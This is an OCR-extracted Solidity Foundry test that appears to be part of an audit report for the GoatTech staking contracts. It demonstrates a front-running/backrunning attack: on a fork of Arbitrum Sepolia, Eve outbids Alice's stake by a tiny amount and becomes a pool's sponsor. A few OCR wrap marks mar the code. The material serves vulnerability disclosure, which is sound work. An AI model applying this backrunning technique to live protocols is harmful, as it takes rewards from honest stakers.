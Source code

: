  import \"../contracts/modules/UseAccessControl.sol\"; import \"../contracts/modules/Earning.sol\"; import \"../contracts/modules/Locker.sol\"; import \"@openzeppelin/contracts/token/ERC20/IERC20.sol\"; 

 contract Fork is Test { // GoatTech Contracts Controller controller; Profile profile; Locker locker; UseAccessControl useAccessControl; 

 // Setup users address Whale = 0xD8Ea779b8FFC1096CA422D40588C4c0641709890; 

 address Alice = 0x71B61c2E250AFa05dFc36304D6c91501bE0965D8; address Eve = 0xb2248390842d3C4aCF1D8A893954Afc0EAc586e5; address John = 0x0F7F6B308B5111EB4a86D44Dc90394b53A3aCe13; 

 uint256 fork; 

 function setUp() public { // Set up forked environment for Arbitrum Sepolia fork = vm.createFork(\"https://public.stackup.sh/api/v1/node/arbitrum-sepolia\"); 

 // These addresses are the live GoatTech Contracts on Arbitrum Sepolia controller = Controller(payable(address(0xB4E5f0B2885F09Fd5a078D86E94E5D2E4b8530a7))); profile = Profile(0x7c25C3EDd4576B78b4F8aa1128320AE3d7204bEc); locker = Locker(0x0265850FE8A0615260a1008e1C1Df01DB394E74a); useAccessControl = UseAccessControl(0x588CF1494C5aC93796134E5e1827F58D2a8A9cDB); 

 } 

 function test_FormulaeDoesNotProtectEarlySponsors() public { vm.selectFork(fork); 

 // John creates his pool and stakes 1 ETH for 720 days vm.startPrank(John); controller.ethStake{value: 1 ether}(payable(John), 720 days, 1000, 2000300, 1, 0); 

 // Alice stakes 0.01 ETH for 30 days vm.startPrank(Alice); controller.ethStake{value: 0.01 ether}(payable(John), 30 days, 1000, 2000300, 1, 0); 

 // shows the new sponsor is Alice IProfile.SProfile memory NewSProfile = profile.profileOf(John); address NextSponsor1 = NewSProfile.sponsor; assertTrue(NextSponsor1 == Alice); 

 // check and log the total amount of wsteth Alice has staked LLocker.SLock memory AliceSlock = locker.getLockData(Alice, John); uint AliceStakedWstethAmount = AliceSlock.amount; console.log(\"AliceStakedWstethAmount %e\", AliceStakedWstethAmount); 

// Eve backruns Alice's Tx and deposits 1000000000000 wei more than Alice for 30 days vm.startPrank(Eve); controller.ethStake{value: 0.01 ether + 1000000000000 wei}(payable(John), 30 days, 1000, ,→ 2000300, 1, 0); // check and log the total amount of wsteth Eve has staked LLocker.SLock memory EveSlock = locker.getLockData(Eve, John); uint EveStakedWstethAmount = EveSlock.amount; console.log(\"EveStakedWstethAmount %e\", EveStakedWstethAmount); 


// Log the tiny difference in staked Amounts // If the protocol was live on Arbitrum One, An attacker can optimize this to be less than 1000 ,→ wei wsteth console.log(\"DifferenceInStakedAmounts %e\", EveStakedWstethAmount AliceStakedWstethAmount); 

 // shows the new sponsor is Eve IProfile.SProfile memory NewerSProfile = profile.profileOf(John); address NextSponsor2 = NewerSProfile.sponsor; assertTrue(NextSponsor2 == Eve); 

// IMPORTANT CAVEAT // On Arbitrum One Eve would be able to directly Stake (AliceStakedWstethAmount + 1000), to ,→ become the sponsor // Since I am limited by the testing environment I have provided a workaround test that gets ,→ the point across but requires Eve to stake via depositing ETH // This causes the difference in wsteth amounts to be larger than it would be on Arbitrum One // BUT, It is still a very tiny amount in this test ( 0.00000062 wsteth ) } 
